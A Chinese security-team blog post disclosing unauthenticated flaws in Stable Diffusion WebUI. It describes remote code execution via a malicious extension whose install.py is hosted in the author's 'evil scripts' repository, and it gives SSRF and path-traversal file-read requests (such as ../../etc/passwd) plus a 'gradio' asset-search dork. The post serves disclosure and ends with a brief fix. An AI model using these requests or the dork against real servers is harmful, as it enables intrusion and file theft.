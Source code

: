 #  SD-WebUI未公开的0Day漏洞   
原创 ki9mu  OneTS安全团队   2024-11-22 02:00  
  
**点击蓝字**  
  
**关注我们**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kJjVGsbcK2B4JcLtGicEoHD4HZ2y2whAMRQyl2H79RFZIxHykxBR5ZXl6RtAlfGBBzyaSA8ZM49AyUja2LW38ew/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**声明**  
  
  
  
  
  
  
  
  
本文属于OneTS安全团队成员**ki9mu**的原创文章，转载请声明出处！本文章仅用于学习交流使用，因利用此文信息而造成的任何直接或间接的后果及损失，均由使用者本人负责，OneTS安全团队及文章作者不为此承担任何责任。  
  
  
**SD-WebUI介绍**  
  
  
  
Stable Diffusion是一款功能异常强大的AI图片生成器。  
它不仅支持生成图片，使用各种各样的模型来达到你想要的效果，还能训练你自己的专属模型，  
WebUI使得Stable Diffusion有了一个更直观的用户界面，更适合新手用户，该项目github高达143K的star数。  
  
项目地址如下：https://github.com/AUTOMATIC1111/stable-diffusion-webui  
  
  
  
**RCE漏洞描述**  
  
  
  
未授权访问的情况下，如果能够访问到用户自定义插件，可以通过构造恶意插件。  
  
fork如下代码：  
  
https://github.com/ki9mu/sd-evil-scrpits/blob/main/install.py  
  
更改相关的执行命令，在扩展插件中选择远程加载的项目地址即可正确安装  
  
https://github.com/ki9mu/sd-evil-scrpit  
s  
  
  
  
**0Day漏洞描述及复现**  
  
  
  
如果关闭扩展选项卡，目前还包括SSRF和任意文件读取。  
  
全回显SSRF：  
https://target/proxy=http://www.example.com  
  
  
任意文件读取：  
  
https://target/file=/mnt/ljh/stable-diffusion-webui/webui.sh  
  
https://target/file=../../../../../../etc/passwd（burp中请求）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kJjVGsbcK2DcjQxkAumFhSE4BwQM8o0Rpn97zU1PxsHC5aUhXMFUB7tCl7FMFA29zNF1G7WcX81KmRDOj2lXjA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**漏洞影响版本**  
  
  
  
只要未授权都有问题  
  
  
  
  
  
**资产测绘平台Dork**  
  
  
```
# hunter语法
app="gradio"
```  
  
截至发文：（图源hunter）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kJjVGsbcK2DcjQxkAumFhSE4BwQM8o0RtclKelc7c9q8tfeUjajNaUWSt7cRM77yzZW3wUNMAR4q66R1OQJehA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**漏洞修复建议**  
  
  
  
增加访问权限控制  
  
  
  
